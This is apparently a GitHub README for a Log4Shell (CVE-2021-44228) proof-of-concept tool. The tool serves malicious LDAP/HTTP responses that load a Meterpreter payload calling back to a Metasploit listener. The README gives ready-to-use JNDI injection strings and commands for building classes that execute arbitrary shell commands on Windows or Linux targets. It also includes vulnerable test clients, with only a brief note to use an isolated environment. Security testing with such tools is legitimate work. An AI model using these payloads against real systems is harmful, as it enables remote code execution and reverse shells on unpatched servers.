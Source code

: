 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

## Server
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

#### to get started
run: python3 run_servers.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM_20_30_40_50_4444}'

#### Building executable commands
You can build classes that will launch executable on the source system.
You can have different commands for windows or linux based systems.
For instance to create a class called TestCmd that will launch a calculator
on Windows systems and Firefox on linux systems run :
**python3 build_cmd.py TestCmd -w "Calc.exe" -l "firefox"**

You can have multiple pre built classes.  If you do not specify a command 
for the target os then nothing is executed.  Note these commands are run 
as CMD \c "your command" on windows and /bin/sh -c "your command" on linux.

To trigger the above command use the name of the class you created i.e : 
'${jndi:ldap://10.20.30.40:1389/#TestCmd'

The Payload.java file is the full Meterpreter file that is setup to run as a
thread in the calling process that had the log4shell issue.  This needs to be 
manuallyy compiled and moved to the wwwroot dir.  Additionally you need to have
the metasploit.dat file setup with the properties you need.

## Clients
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolated controlled env.

#### To build the clients :
navigate to the clients dir and run  ./build_clients.sh

#### To execute the webserver : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jWebServer [Port_number]

#### To execute the cmd line : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM_127_0_0_1_4444}'




